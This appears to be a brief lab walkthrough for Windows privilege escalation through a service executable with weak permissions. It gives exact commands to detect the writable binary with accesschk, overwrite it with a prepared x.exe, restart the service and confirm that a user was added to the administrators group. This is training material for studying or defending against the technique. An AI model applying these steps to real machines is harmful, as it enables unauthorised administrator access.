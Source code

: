 # Escalation Path Executables files

## Detection

Windows VM

Open command prompt and type: **C:\Users\User\Desktop\Tools\Accesschk\accesschk64.exe -wvu "C:\Program Files\File Permissions Service"  
**2. Notice that the “Everyone” user group has “FILE_ALL_ACCESS” permission on the filepermservice.exe file.

**Exploitation**

Windows VM

2. Open command prompt and type: **copy /y c:\Temp\x.exe "c:\Program Files\File Permissions Service\filepermservice.exe"  
**2. In command prompt type: **sc start filepermsvc  
**3. It is possible to confirm that the user was added to the local administrators group by typing the following in the command prompt: **net localgroup administrators**